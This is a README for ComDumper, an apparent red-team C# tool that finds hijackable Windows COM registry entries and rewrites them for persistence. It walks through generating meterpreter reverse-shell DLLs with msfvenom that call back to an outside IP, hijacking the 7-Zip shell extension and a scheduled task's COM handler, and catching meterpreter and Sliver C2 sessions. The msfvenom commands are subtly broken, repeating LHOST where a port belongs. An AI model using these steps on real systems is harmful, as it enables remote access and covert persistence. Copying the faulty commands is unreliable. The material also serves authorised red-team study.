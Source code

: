 # ComDumper

A Simple C# red team tool to enumerate and analyze COM registry objects for hijackable entries, missing binary paths, access control misconfigurations, and simulate persistence via registry modification.
For more details about COM exploitation demos, take a look at my [blog](https://yokaiswikie.gitbook.io/com-object-enumeration/).
## Compiling code using VS csc compiler

```powershell
csc /r:System.DirectoryServices.AccountManagement.dll ComDumper.cs /out:ComDumper.exe
csc /r:System.DirectoryServices.AccountManagement.dll ComDumper.cs /out:ComDumper64.exe /platform:x64
```
## Usage

![image](https://github.com/user-attachments/assets/f9120ac3-23bd-4ce0-a9d7-bb893ca6f537)

## Features

### Search and Dump CLSIDs

- `-sA`: Scan and dump all COM CLSIDs from the registry.
- Supports limiting the number of results with `-n <number>`.
- Output can be saved as a CSV file (`-o <file>`) or printed verbosely with `--verbose`.
  ```powershell
  .\ComDumper.exe -sA --verbose -n 2
  ```
![image](https://github.com/user-attachments/assets/1179ab96-24a0-4b42-86b7-e0809c8969fa)

dumping all COM CLSIDs to a CSV file
```powershell
.\ComDumper.exe -sA -o comCLSIDs.csv
```
![image](https://github.com/user-attachments/assets/de0ffc1f-512e-4498-99cf-aa074a004a40)

### Filtering Options for Search Results

- `-fg <group>`: Filter entries by registry group.
- `-fu <user>`: Filter entries writable by a specific user (e.g., `BUILTIN\Users`).
- `-fa <access>`: Filter entries based on access control.
- `-fo <owner>`: Filter entries by registry key owner.
- `--filter-access <string>`: Filter entries by partial access control string.
- `--missing` / `-m`: Filter entries where the COM server file (DLL or EXE) is missing from disk.
- `--vulnerable`: Filter entries considered vulnerable (missing or hijackable).
- `--hijackable`: Filter entries that are hijackable.
- `--unresolvedsid`: Filter entries with unresolved SIDs (e.g., `S-1-5-*`).
- 
Some filters, like missing, are better used when you have admin access while looking for persistence entries. Otherwise, they can sometimes falsely report files as missing simply because the program doesn’t have permission to read privileged locations like C:\Windows\System32\.

hunting for FullControl Access over a COM object we can use filters
```powershell
 .\ComDumper.exe -sA --verbose  -fa "FullControl" -fu "ippyokai"
```
Note that the user filter `-fu` also checks the group memberships of the user. Since my `ippyokai` user is a local admin, it will have a lot of FullControl access rights.
We can search for the explicit Write access for a user as follows or using regx.
```powershell
 .\ComDumper.exe -sA --verbose  -fa "COMMANDO\ippyokai (FullControl)"
```
![image](https://github.com/user-attachments/assets/92f120a3-3c63-485e-9c99-43f285713476)

### Individual CLSID Search

- `-s --clsid <CLSID>`: Query detailed information about a specific CLSID.
 From the previous example, we can take the 7-Zip shell extension CLSID `{23170F69-40C1-278A-1000-000100020000}` to get more info.
![image](https://github.com/user-attachments/assets/f4c5d3d0-6d4e-4e4f-aa29-d5e7b665d41f)

### Exploit Mode

- `-e --clsid <CLSID> --dll <path>`: Replace the COM DLL path in the registry for the specified CLSID.
- `-e --clsid <CLSID> --exe <path>`: Replace the COM EXE path in the registry for the specified CLSID.
- `--hkcu`: Apply the hijack under the current user registry hive (HKCU) instead of the local machine hive (HKLM).
For exploit mode, it’s simple: without --hkcu, the tool changes the registry entry to the given DLL or EXE. With the --hkcu option, it performs a hijack by adding a registry entry under HKCU to override the DLL from HKLM. Be careful to create a proper DLL that proxies calls to the original one to maintain system functionality. You can use FaceDancer, as I demonstrated in my blog.

We can create a simple proof of concept here since we have FullControl over the 7-Zip shell extension COM registry.
generate first a simple dll with  `msfvenome`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LHOST=4444 -f dll -o shell.dll
```
Adding the dll. `ComDumper` backup it automaticaly so you can recover it later.
![image](https://github.com/user-attachments/assets/1c6b6196-004f-47da-a8f8-510de25985b7)

By navigating to a folder containing ZIP files, we can observe that `explorer.exe` loads `shell.dll`.
![image](https://github.com/user-attachments/assets/0bf130b5-aa07-48df-bebe-cfe1cedfcedc)

we have got meterpreter session.
![image](https://github.com/user-attachments/assets/737e31ff-e43d-44d2-9382-9279409a733d)

now we can recover it back.
![image](https://github.com/user-attachments/assets/43240580-fb13-46f9-8f2e-13a241b948fc)

For `--hkcu` mode, we can enumerate COM objects used by scheduled tasks using the [Get-ScheduledTaskComHandler.ps1]()https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Get-ScheduledTaskComHandler.ps1 script, created by Matt Nelson and Matthew Graeber. I will might add a C# class to enumerate scheduled tasks later.

```powershell
. .\Get-ScheduledTaskComHandler
Get-ScheduledTaskComHandler -PersistenceLocations
```
We can take an example for this mode using `CacheTask`.
![image](https://github.com/user-attachments/assets/802b8c81-ed06-4cef-9ad7-f450a07c94f9)

We can verify that the entry comes from HKLM.
![image](https://github.com/user-attachments/assets/c6d32948-1398-4348-9d24-fa32e4a3a17c)

Generate a DLL as in the previous step.
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LHOST=8443 -f dll -o Rabbit.dll
```

Now I'm going to use this DLL as a staged payload for Sliver C2. check too with out `--hkcu` we have got access denied cause can't write to HKLM directly.
![image](https://github.com/user-attachments/assets/7ce118a8-56c5-495c-a672-3317d4c0f9b5)

Re-login with any user, and the beacon call will be triggered.
![image](https://github.com/user-attachments/assets/27b44d28-1f1e-4dd2-adee-e1446dafc6fe)

Clean up again just remove the entry.
```powershell
$clsid = '{0358B920-0AC7-461F-98F4-58E32CD89148}'
$path = "HKCU:\Software\Classes\CLSID\$clsid"

if (Test-Path $path) {
    Remove-Item -Path $path -Recurse -Force
    Write-Host "[+] COM hijack removed from HKCU for CLSID $clsid"
} else {
    Write-Host "[-] No COM hijack found under HKCU for CLSID $clsid"
}
```

---

## 📚 References & Acknowledgements

I would like to acknowledge and thank the authors and contributors of the following outstanding resources and blogs that greatly enhanced my understanding of COM abuse techniques and persistence mechanisms:

- **Fakroud, Mohamed** – Playing Around COM Objects - Part 1, Red Teaming Dojo  
  https://mohamed-fakroud.gitbook.io/red-teamings-dojo/windows-internals/playing-around-com-objects-part-1

- **DerbyCon 2019** – COM Hijacking Techniques, Slideshare presentation  
  https://www.slideshare.net/slideshow/com-hijacking-techniques-derbycon-2019/169871173

- **SpecterOps Team** – Revisiting COM Hijacking, SpecterOps Blog (May 28, 2025)  
  https://specterops.io/blog/2025/05/28/revisiting-com-hijacking/

- **PentestLab Team** – Persistence: COM Hijacking, PentestLab Blog (May 20, 2020)  
  https://pentestlab.blog/2020/05/20/persistence-com-hijacking/

These resources provided valuable insights, technical deep-dives, and practical examples that were instrumental in shaping the development of this tool and the learning journey behind it.


